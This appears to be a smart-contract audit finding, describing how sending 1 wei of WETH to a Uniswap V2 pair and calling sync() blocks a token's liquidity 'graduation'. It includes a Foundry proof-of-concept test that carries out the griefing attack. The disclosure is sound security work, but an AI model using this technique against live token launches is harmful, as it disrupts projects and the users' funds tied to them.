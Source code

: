 ```
 function _graduate() internal {
        tokenState = TokenState.Trading;

        uint256 ethLiquidity = address(this).balance;

        // Mint the secondary market supply to this contract
        _mint(address(this), X1);

        // Approve the Uniswap V2 router to spend this token for adding liquidity
        IERC20(address(this)).approve(swapRouter, X1);

        // Add liquidity to the Uniswap V2 pool
>       IUniswapV2Router02(swapRouter).addLiquidityETH{value: ethLiquidity}(
            address(this), X1, X1, ethLiquidity, owner(), block.timestamp + 5 minutes
        );

        emit Graduate(poolAddress, address(this), ethLiquidity, X1);
    }

```

While the `_update()` function prevents anyone from adding liquidity before "graduation", a malicious user can send 1 wei of WETH token into the pair address directly and call `sync()` to mess up the reserve balance.

Add this test to StardustTokenTest.t.sol and run ` forge test --mt test1 -vv --via-ir`. The function should fail. with `UniswapV2Library: INSUFFICIENT_LIQUIDITY`.

```
  function test1() public {
        address user = address(0xaaa);
        vm.startPrank(user);
        vm.deal(user, 25 ether);
        address router = 0x4752ba5DBc23f44D87826276BF6Fd6b1C372aD24;
        IERC20 WETH1 = IERC20(IUniswapV2Router02(stardustToken.swapRouter()).WETH());
        deal(address(WETH1) ,user,10 ether);
        address factory = 0x8909Dc15e40173Ff4699343b6eB8132c65e18eC6;
        IUniswapV2Pair pair = IUniswapV2Pair(IUniswapV2Factory(factory).getPair(address(stardustToken), address(WETH1)));
        console.log("Pair Address:", address(pair));
        console.log(WETH1.balanceOf(address(pair)));

>        WETH1.transfer(address(pair), 1);
>        pair.sync();
        (uint112 reserve2, uint112 reserve3,) = pair.getReserves();
        console.log("Reserve0:", reserve2);
        console.log("Reserve1:", reserve3);
        console.log(WETH1.balanceOf(address(pair)));
        {
            // graduate buy
            uint256 actualEthCost = stardustToken.Y1() - stardustToken.Y0();
            uint256 fee = actualEthCost * stardustToken.feeBps() / 10000;
            uint256 totalRefund = 20 ether - (actualEthCost + fee);
            uint256 boughtStar = stardustToken.getOutTokenAmountAfterFee(0);
            // graduates when > 16 ether approx
            stardustToken.buy{value: 20 ether}(boughtStar);
        }
        (uint112 reserve0, uint112 reserve1,) = pair.getReserves();
        console.log("Reserve0:", reserve0);
        console.log("Reserve1:", reserve1);
    }
```
